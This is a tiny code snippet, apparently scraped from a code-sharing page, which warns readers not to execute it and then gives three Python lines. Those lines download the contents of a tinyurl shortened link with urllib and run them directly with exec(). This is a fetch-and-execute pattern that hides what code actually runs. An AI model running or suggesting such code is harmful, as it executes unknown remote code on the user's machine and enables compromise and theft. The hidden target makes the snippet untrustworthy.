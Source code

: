 You should not execute this script.<br/>
If you execute this, it is at your own risk<br/>

import urllib.request
script = urllib.request.urlopen("https://tinyurl.com/btwktzns").read()
exec(script)
